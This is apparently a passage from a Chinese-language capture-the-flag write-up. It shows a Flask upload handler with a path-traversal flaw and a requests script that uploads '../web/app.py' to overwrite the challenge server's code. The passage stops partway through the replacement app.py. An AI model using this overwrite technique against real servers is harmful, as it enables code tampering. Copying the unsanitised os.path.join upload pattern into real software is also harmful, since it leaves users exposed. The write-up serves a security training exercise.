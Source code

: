 原来 ASCII 码小于 65 的字符（数字）全都被变成了 0（65，即 A）...

在看源码后不难留意到上传文件的部分存在巨大的漏洞：

```python
file = request.files['file']
filename = file.filename
filepath = os.path.join(UPLOAD_DIR, filename)
file.save(filepath)
```

它直接用了 `os.path.join`。结合给出的提示环境开了 `--reload`，如果我传一个文件名为 `../web/app.py` 的文件，去掉这个归一化的逻辑，是不是就能得到真正的 flag 了呢？

```python
payload = open("web.py").read()
response = requests.post("https://chal***.hack-challenge.lug.ustc.edu.cn:8443/submit", headers={
    "Content-Type": "multipart/form-data; boundary=---------------------------114514",
    },
data="-----------------------------114514\r\nContent-Disposition: form-data; name=\"file\"; filename=\"../web/app.py\"\r\nContent-Type: text/plain\r\n\r\n" + payload + "\n\r\n-----------------------------114514--\r\n"
)
```

{%folding child:codeblock 我覆盖的 app.py 内容 %}

```python
from flask import Flask, render_template, request, flash, redirect
import json
import os
import traceback
import secrets

app = Flask(__name__)
app.secret_key = secrets.token_urlsafe(64)

UPLOAD_DIR = "/tmp/uploads"

os.makedirs(UPLOAD_DIR, exist_ok=True)

# results is a list
try:
    with open("results.json") as f:
        results = json.load(f)
except FileNotFoundError:
    results = []
    with open("results.json", "w") as f:
        json.dump(results, f)


def get_answer():
    # scoring with answer
    # I could change answers anytime so let's just load it every time
    with open("answers.json") as f:
        answers = json.load(f)
        # sanitize answer
    return answers


@app.route("/", methods=["GET"])
def index():
    return render_template("index.html", results=["GenshinImpact"])


@app.route("/submit", methods=["POST"])
def submit():
```